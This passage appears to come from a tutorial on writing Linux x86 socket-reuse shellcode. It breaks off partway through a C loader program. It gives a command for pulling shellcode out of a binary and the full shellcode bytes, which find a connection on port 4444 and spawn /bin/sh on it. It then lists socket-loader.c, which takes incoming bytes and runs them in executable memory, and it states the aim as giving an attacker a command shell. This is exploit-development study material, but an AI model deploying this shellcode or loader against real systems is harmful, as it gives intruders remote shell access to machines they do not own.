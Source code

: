 
Get shellcode from executable:
Use the following from the commandlinefu website replacing PROGRAM with the name of the required executable like so,
```bash
objdump -d ./getpeername|grep ‘[0-9a-f]:’|grep -v ‘file’|cut -f2 -d:|cut -f1-6 -d’ ‘|tr -s ‘ ‘|tr ‘t’ ‘ ‘|sed ‘s/ $//g’|sed ‘s/ /x/g’|paste -d ” -s |sed ‘s/^/”/’|sed ‘s/$/”/g’

“\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80”
```
Paste this shellcode into the socket-send-reuse.c file, see below.

This code is not easily tested, as what it is trying to do is from within a process look for a connection on port 4444, when it finds that connection it then binds a shell to that port. Therefore in order to test this code it will firstly need to be transferred into a server process by a client that will also provide a connection via the relevant port then the shellcode can be executed, giving the attacker a command shell.

Sounds complex and it is, much research was required, but thankfully , due to previous research being done by some very talented people, there was a good explanation with examples to be found at the Blackhat Library.

So using the various source code files related to the Blackhat Library article, the following programs were amended.

File: socket-loader.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>
#include <sys/types.h> 
#include <sys/socket.h>
#include <netinet/in.h>
  
void
execute(char *buffer) 
{
    void (*mem)() = mmap(0, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, 
        MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    memcpy(mem, buffer, strlen(buffer));
    (*mem)();
}
  
int
main(int argc, char *argv[]) 
{
    char buffer[1024];
    int serverfd, clientfd;
    socklen_t client_len;
    struct sockaddr_in server_addr, client_addr;
    client_len = sizeof(client_addr);
      
    if (argc != 2) {
        printf("Usage: %s <port>n", argv[0]);
        exit(1);
    }
      
    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = INADDR_ANY;
    server_addr.sin_port = htons(atoi(argv[1]));
    serverfd = socket(AF_INET, SOCK_STREAM, 0);
 
```